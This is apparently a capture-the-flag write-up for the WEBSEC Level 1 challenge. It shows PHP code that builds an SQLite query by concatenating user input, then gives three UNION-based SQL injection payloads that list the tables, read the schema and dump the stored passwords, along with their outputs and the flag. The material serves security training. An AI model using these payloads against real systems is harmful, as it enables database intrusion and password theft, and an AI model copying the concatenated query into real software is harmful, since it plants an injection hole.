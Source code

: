 #WEBSEC Level 1


## Challenge description
Nothing fancy


## Initial analysis

```class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

## Walk through

STEP 1: `0 union SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type = 'table'--`
OUTPUT: Other User Details: id -> 1 username -> users (Table name)

STEP 2: `0 union select 1,sql from sqlite_master--`
OUTPUT: Other User Details: id -> 1 username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255)) (Column name)

STEP 3: `0 UNION SELECT 1, GROUP_CONCAT(password) FROM users--`
OUTPUT: Other User Details: id -> 1 username -> UnrelatedPassword, ExampleUserPassword, WEBSEC{Simple_SQLite_Injection}

## Flag

**FLAG**: `WEBSEC{Simple_SQLite_Injection}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.